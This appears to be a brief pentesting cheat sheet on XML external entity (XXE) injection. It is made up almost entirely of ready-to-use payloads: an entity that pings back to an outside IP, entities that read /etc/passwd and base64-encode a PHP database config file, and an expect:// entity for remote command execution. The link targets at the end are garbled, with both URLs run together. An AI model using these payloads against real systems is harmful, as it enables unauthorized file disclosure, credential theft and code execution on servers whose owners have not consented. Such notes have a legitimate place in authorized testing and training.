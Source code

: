 # xml external entity XXE

## Get ping back

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.161"> %xxe; ]>
# usage
<var>&xxe;</var>
```

## Read File

```
# using php-base64 when reading file that are not being loaded
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>

<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

# usage
<var>&xxe;</var>
```

## RCE using expect (PHP)

```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id"> ]>
```

## Additional Materal

* [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
